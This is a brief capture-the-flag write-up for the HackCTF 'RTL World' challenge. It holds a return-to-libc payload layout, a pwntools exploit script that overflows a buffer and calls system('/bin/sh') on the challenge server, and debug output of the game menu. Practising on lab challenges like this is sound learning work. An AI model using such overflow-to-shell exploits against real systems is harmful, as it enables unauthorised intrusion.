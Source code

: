`payload : buffer(14bytes) + SFP(4bytes) + &system + dummy(4bytes) + &"/bin/sh"`

# Exploit
```python
from pwn import *

context.log_level = 'debug'

p = remote('ctf.j0n9hyun.xyz', 3010)
# p = process('./rtl_world')

# materials for exploit
system_addr = 0x80485b0
binsh = 0x8048eb1

# payload setup
payload = ''
payload += 'A'*144
payload += p32(system_addr)
payload += 'AAAA'    
payload += p32(binsh)

# access to "case 5:"
p.recvuntil('>>> ')
p.sendline('5')
log.info('send 5')

# send the payload
p.recvuntil('> ')
p.sendline(payload)
log.info('send payload')

p.interactive()
```


# result
```bash
mac at ubuntu in ~/Desktop/hackCTF
$ python ex.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3010: Done
[DEBUG] Received 0x1b bytes:
    '\n'
    '\n'
    'NPC [Village Presient] : '
[DEBUG] Received 0x176 bytes:
    '\n'
    'Binary Boss made our village fall into disuse...\n'
    'If you Have System Armor && Shell Sword.\n'
    'You can kill the Binary Boss...\n'
    'Help me Pwnable Hero... :(\n'
    '\n'
    'Your Gold : 1000\n'
    '======= Welcome to RTL World =======\n'
    '1) Information the Binary Boss!\n'
    '2) Make Money\n'
    '3) Get the System Armor\n'
    '4) Get the Shell Sword\n'
    '5) Kill the Binary Boss!!!\n'
    '6) Exit\n'
    '====================================\n'
    '>>> '
```